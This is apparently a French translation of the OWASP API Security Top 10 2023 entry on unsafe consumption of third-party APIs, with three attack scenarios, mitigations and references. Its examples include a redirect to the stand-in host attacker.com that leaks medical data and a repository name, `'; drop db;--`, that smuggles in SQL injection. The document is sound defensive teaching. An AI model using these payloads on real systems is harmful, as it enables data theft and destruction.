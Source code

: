 # API10:2023 Unsafe Consumption of APIs

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Moyenne** | Technique **Grave** : Spécifique à l'organisation |
| Exploiter ce problème nécessite que les attaquants identifient et compromettent potentiellement d'autres APIs/services avec lesquels l'API cible est intégrée. Habituellement, ces informations ne sont pas publiquement disponibles ou l'API/service intégré n'est pas facilement exploitable. | Les développeurs ont tendance à faire confiance et ne pas vérifier les points d'accès qui interagissent avec des API/services externes ou tiers, en se basant sur des exigences de sécurité plus faibles telles que celles concernant la sécurité du transport, l'authentification/l'autorisation et la validation des entrées. Les attaquants doivent identifier les services avec lesquels l'API cible s'intègre (sources de données) et, éventuellement, les compromettre. | L'impact varie en fonction de ce que l'API cible fait avec les données extraites. L'exploitation réussie peut entraîner une exposition d'informations sensibles à des acteurs non autorisés, de nombreux types d'injections, ou un déni de service. |

## L'API est-elle vulnérable ?

Les développeurs ont tendance à faire confiance aux données reçues des API tierces plus qu'aux entrées utilisateur. Cela est particulièrement vrai pour les API proposées par des entreprises bien connues. En raison de cela, les développeurs ont tendance à adopter des normes de sécurité plus faibles, par exemple en ce qui concerne la validation des entrées et l'analyse en vu de caractères autorisés ou non en entrée (effacés ou échappés).

L'API peut être vulnérable si :
* Elle interagit avec d'autres API sur un canal non chiffré ;
* Elle ne valide/filtre pas correctement les données collectées auprès d'autres API avant de les traiter ou de les transmettre à des composants en aval ;
* Elle suit aveuglément les redirections ;
* Elle ne limite pas le nombre de ressources disponibles pour traiter les réponses des services tiers ;
* Elle n'implémente pas de délais d'attente pour les interactions avec les services tiers.

## Exemple de scénarios d'attaque

### Scénario #1

Une API repose sur un service tiers pour enrichir les adresses commerciales fournies par les utilisateurs. Lorsqu'une adresse est fournie à l'API par l'utilisateur final, elle est envoyée au service tiers et les données renvoyées sont ensuite stockées dans une base de données locale compatible SQL.

Les attaquants utilisent le service tiers pour stocker une payload SQLi associée à une entreprise créée par eux. Ensuite, ils ciblent l'API vulnérable en fournissant une entrée spécifique qui la pousse à extraire leur "entreprise malveillante" du service tiers. La charge utile SQLi est alors exécutée par la base de données, exfiltrant des données vers un serveur contrôlé par un attaquant.

### Scénario #2

Une API s'intègre à un fournisseur de services tiers pour stocker en toute sécurité des informations médicales sensibles sur les utilisateurs. Les données sont envoyées via une connexion sécurisée en utilisant une requête HTTP comme celle ci-dessous :

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Des acteurs malveillants ont trouvé un moyen de compromettre l'API tierce et elle commence à répondre avec une redirection permanente `308` aux requêtes comme la précédente.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Puisque l'API suit aveuglément les redirections, elle répète la même requête, y compris les données sensibles de l'utilisateur, vers le serveur de l'attaquant.

### Scénario #3

Un attaquant peut préparer un dépôt git nommé `'; drop db;--`.

Maintenant, lorsqu'une intégration d'une application attaquée est effectuée avec le dépôt malveillant, une charge utile d'injection SQL est utilisée sur une application qui construit une requête SQL en croyant que le nom du dépôt est une entrée sûre.

## Comment s'en prémunir ?

* Lors de l'évaluation des fournisseurs de services, évaluez leur posture de sécurité API.
* Assurez-vous que toutes les interactions API se font sur un canal de communication sécurisé (TLS).
* Validez toujours et épurez correctement les données reçues des API intégrées avant de les utiliser.
* Maintenez une liste blanche des emplacements bien connus vers lesquels les API intégrées peuvent rediriger les vôtres : ne suivez pas aveuglément les redirections.


## Références

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externes

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
